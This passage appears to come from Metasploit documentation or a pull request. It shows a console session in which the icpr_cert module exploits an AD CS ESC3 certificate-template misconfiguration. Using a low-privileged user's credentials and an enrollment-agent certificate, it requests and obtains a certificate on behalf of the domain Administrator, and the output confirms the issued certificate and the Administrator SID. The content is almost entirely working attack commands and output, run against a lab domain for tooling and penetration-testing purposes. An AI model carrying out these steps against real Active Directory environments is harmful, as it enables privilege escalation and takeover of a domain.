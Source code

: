 Just to show this is also possible with `ESC3-Template2` here is a snippet showing that also works:

```
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC3-Template2
CERT_TEMPLATE => ESC3-Template2
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting                 Required  Description
   ----           ---------------                 --------  -----------
   ALT_DNS                                        no        Alternative certificate DNS
   ALT_UPN                                        no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA     yes       The target certificate authority
   CERT_TEMPLATE  ESC3-Template2                  yes       The certificate template
   ON_BEHALF_OF   DAFOREST\Administrator          no        Username to request on behalf of (format: DOMAIN\USE
                                                            R)
   PFX            /home/gwillcox/.msf4/loot/2022  no        Certificate to request on behalf of
                  1216174221_default_unknown_win
                  dows.ad.cs_027866.pfx
   RHOSTS         172.30.239.85                   yes       The target host(s), see https://github.com/rapid7/me
                                                            tasploit-framework/wiki/Using-Metasploit
   RPORT          445                             yes       The target port (TCP)
   SMBDomain      DAFOREST                        no        The Windows domain to use for authentication
   SMBPass        normaluser                      no        The password for the specified username
   SMBUser        normal                          no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-500
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216180342_default_unknown_windows.ad.cs_390825.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```
